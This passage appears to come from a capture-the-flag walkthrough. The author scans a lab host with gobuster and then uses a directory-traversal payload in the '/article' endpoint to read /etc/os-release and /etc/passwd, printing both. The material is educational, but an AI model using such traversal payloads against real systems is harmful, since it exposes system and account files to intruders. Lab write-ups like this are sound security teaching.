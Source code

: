 So, we've got a Linux box running SSH and some weird-ass httpd server on port 80.

We'll also hit 10.10.0.57 with gobuster:

```bash
gobuster \
	-t 50 dir \
	-u http://10.10.0.57 \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

This only detects the `/article` endpoint I noted while poking around the site. (I could hit the site with a larger wordlist, but it doesn't seem worth it.)

I'm going to go out on a limb here and guess that we're going to exploit the `/article` endpoint, which probably *is* just pulling in files verbatim.

A common file on Linux systems is `/etc/os-release`, so let's see if we can include this. And, in fact, after a little experimentation it turns out that we can using `http://10.10.0.57/article?name=../../../etc/os-release`:

```sh
NAME="Ubuntu";
VERSION="18.04.3 LTS (Bionic Beaver)";
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.3 LTS";
VERSION_ID="18.04";
HOME_URL="https://www.ubuntu.com/";
SUPPORT_URL="https://help.ubuntu.com/";
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/";
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy";
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```

(It looks like `/article` must be doing some simple escaping too.)

Let's grab `/etc/passwd` so we know which users are running on the system.

```passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
```